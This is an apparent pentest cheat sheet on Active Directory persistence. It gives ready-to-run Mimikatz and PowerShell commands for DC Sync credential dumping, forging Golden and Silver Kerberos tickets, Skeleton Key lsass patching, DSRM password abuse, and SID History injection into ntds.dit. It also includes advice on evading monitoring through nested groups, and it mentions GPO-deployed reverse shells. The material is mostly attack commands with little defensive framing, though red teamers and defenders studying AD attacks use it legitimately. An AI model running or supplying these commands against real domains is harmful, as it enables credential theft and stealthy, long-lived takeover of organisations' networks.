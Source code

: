 ```yaml
---
title: Active Directory persistence
---
```


- [1. DC Sync](#1-dc-sync)
- [2. Golden Ticket](#2-golden-ticket)
- [3. Silver Ticket](#3-silver-ticket)
- [4. Skeleton Key](#4-skeleton-key)
- [5. DSRM Password](#5-dsrm-password)
- [6. Custom SSP](#6-custom-ssp)
- [7. Certificates](#7-certificates)
- [8. Group Membership](#8-group-membership)
- [9. SID History](#9-sid-history)
- [10. Group Templates](#10-group-templates)
- [11. GPO](#11-gpo)

## 1. DC Sync
The more privileged credentials are, the sonner they will be rotated after breach detection. The goal then is to persist with near-privileged credentials, not with a super-user:

- Local administrator on several machines - usually there is a group or two with local admin rights on almost all machines.
- Service accounts with delegation permissions - with this accounts it's possible to force golden and silver tickets to perform Kerberos delegation attacks.
- Privileged AD services accounts

It is not just the DCs that can initiate DC Synchronization. Accounts such as those belonging to the _Domain Admins_ groups can also do it for legitimate purposes such as creating a new domain controller. If our account has permission to perform DC Synchronization, we can stage a DC Sync attack to harvest credentials from a DC.

```powershell
.\mimikatz.exe

# Dump for single user
> lsadump::dcsync /domain:<DOMAIN> /user:<AD_USERNAME>

# Dump all users to the file
> log <DUMP_FILE.TXT>
> lsadump::dcsync /domain:<DOMAIN> /all
```

## 2. Golden Ticket
_Golden Ticket_ is forged TGT of high privileged account. The authorization step is bypassed. Having a valid TGT of a privileged account, an attacker can request a TGS for almost any service. DC doesn't perform user account validation until the TGT is older than 20 minutes so a revoked account can be used as well. User's password change has no effect on this attack.

In order to forge a golden ticket `krbtgt` account's password hash is required. With this hash an attacker can sign a TGT for any user account. By default, the `krbtgt` account's password never changes, meaning once hacked, unless it is manually rotated, it's possible to generate TGTs forever.

Required information to forge Golden Ticket:

- `krbtgt` account's password hash
- domain name
- domain SID
- user ID

> **NOTE**: `krbtgt` hash is an NT (RC4 + HMAC) hash. It can be extracted from the lsass or a SAM file of a Domain Controller.

```powershell
# Mimikatz - forge Golden Ticket
> kerberos::golden /user:<ACCOUNT> /domain:<DOMAIN_FQDN> /id:500 /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_NT> /endin:600 /ptt

# Check if it works
dir \\dc\C$\
```

Structure of the Mimikatz command:

```plaintext
kerberos::golden        - Mimikatz module
/user:<ACCOUNT>         - User for which the TGT is generated
/domain:<DOMAIN_FQDN>   - Domain FQDN
/sid:<DOMAIN_SID>       - Domain SID
/krbtgt:<KRBTGT_NT>     - krbtgt's NT hash. Other: /aes128, /aes256
/endin:<INT>            - ticket lifetime in minutes (10 years by default)
/ptt                    - pass-the-ticket (inject into memory). Other: /ticket (save to the file)
```

## 3. Silver Ticket
_Silver Ticket_ is forged TGS which gives an access to some interesting service. TGS is encrypted using service account's NT hash so it needs to be extracted first. TGS is valid only for the services running with the same service account.

Usually, a machine account is used as a service account in the most interesting services. That's why the machine account's NT hash is the most desired one.  

**Which service to choose?**. Check out [the list of known SPNs](https://adsecurity.org/?page_id=183). Interesting ones:

- `cifs` - allows file system access.
- `host` - task scheduling ability.

```powershell
# Mimikatz - forge Silver Ticket
> kerberos::golden /user:<ACCOUNT> /domain:<DOMAIN> /sid:<DOMAIN_SID> /target:<DOMAIN> /rc4:<SERVICE_ACCOUNT_NT_HASH> /service:<SERVICE_SPN> /ptt
```

Structure of the Mimikatz command is very similar to the Golden Ticket variant:

```plaintext
kerberos::golden        - Same as for Golden Ticket. No Silver module.
/service:<SERVICE>      - SPN name of the service
/rc4:<HASH>             - Service account hash. Other: /aes128, /aes256
/ptt                    - pass-the-ticket into memory. No option to save the ticket on disk.
```

## 4. Skeleton Key
It's a technique that uses patching of the lsass process memory in a Domain Controller in order to allow access as any user using a single password. It's not persistent across reboots. Domain Admin privileges are required to patch lsass memory!

> **NOTE**: It's not possible to patch the lsass twice.

```powershell
# Mimikatz - change all users passwords to "mimikatz"
> privilege::debug misc::skeleton
```

## 5. DSRM Password
DSRM stands for _Directory Services Restore Mode_. There is a local administrator (_Administrator_ account) present on every DC. It's password is the DSRM password. DSRM password (SafeModePassword) is requred when a server wants to become a Domain Controller and it's rarely changed. This password is set when a server is promoted to the role of the Domain Controller. Nobody cares about the DSRM password so there is a pretty high chance that abusing this functionality gives a life long persistence to an attacker.

By default, the DSRM password cannot be used to logon as a Administrator over the network.

> **NOTE**: The operation of extracting DSRM password hash requires Domain Admin privileges.

```powershell
# Mimikatz - extract DSRM password hash
> token::elevate
> lsadump::sam

# Allow network logon using DSRM password on a Domain Controller
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# Use standard pass-the-hash attack then
```

## 6. Custom SSP
TBD

## 7. Certificates
TBD

## 8. Group Membership
We can just add ourselves directly to privileged AD groups for persistence.  Remember, the most privileged groups are not always the best to use for persistence. They are always monitored. In large organizations groups are usually nested. Groups contain groups and so on. For example, an interesting "IT Support" group might have multiple subgroups with the same privileges. Here's the reduced visibility for monitoring systems. It can be exploited to achive more silent persistence.

```powershell
# Add group member
Add-ADGroupMember -Identity <GROUP> -Members <USER>
```

## 9. SID History
SIDs history of Security Principal allows for one account to be attached to another. It basically have all the privileges of the SIDs included in the SID history. It's especially used during migration, when a new account on a new domain could have the SID history of an old account to retain access of the old domain.

It might be used in order to establish persistence in the domain. Groups' SIDs can be assigned to a user's SID history as well. This technique is a lot harder to detect than just a simple group membership persistence.

```powershell
# Get SID history
Get-ADUser <USER> -Properties name,sidhistory

# Get group's SID
Get-ADGroup <GROUP>

# Modify SID history
Import-Moduls DSInternals
Stop-Service ntds -Force
Add-ADDBSidHistory -SamAccountName <USER> -SidHistory <SID> -DatabasePath 'C:\Windows\NTDS\ntds.dit'
Start-Service ntds
```

## 10. Group Templates
Group templates are objects which privileges are copied to some AD groups constantly (e.g. every hour). `SDProp` process takes the ACL of the `AdminSDHolder` object and applies it to all protected groups every 60 minutes. List of protected groups contains: `Administrators`, `Domain Admins`, `Schema Admins`, `Enterprise Admins` and more. By default, `AdminSDHolder` ACL is very restrictive. By modifing ACL of this object (injecting special ACEs), an attacker can change ACLs of all protected groups in the domain and gain full permissions to them.  

## 11. GPO
GPOs are excellent tool for remote management but they can be targeted to deploy persistence. Some GPO hooks are especially interesting from the attacker's point of view:

- `Restricted Group Membership` - allows to give administrative access to all hosts in the domain.
- `Logon Script Deployment` - allows to execute script (e.g. reverse shell) on every logon.
- and more.
